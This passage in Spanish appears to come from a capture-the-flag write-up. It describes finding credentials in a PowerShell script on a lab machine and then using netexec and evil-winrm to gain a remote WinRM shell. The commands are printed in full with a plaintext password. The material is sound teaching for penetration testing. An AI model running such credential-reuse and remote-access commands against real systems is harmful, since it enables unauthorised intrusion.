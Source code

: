 ![access](Imagenes/22.png)

Viendo que no tenemos permisos de conexión aún, vamos a fijarnos en el script de powershell obtenido del recurso DEV anteriormente:

![access](Imagenes/23.png)

Como podemos observar, hay unas credenciales nuevas, por lo que podemos probar si tiene permisos de acceso remoto:

```
netexec winrm 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```

![access](Imagenes/24.png)

Ahora podemos conectarnos usando evil-winrm:

```
evil-winrm -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt' -i 10.10.11.35
```

![access](Imagenes/25.png)
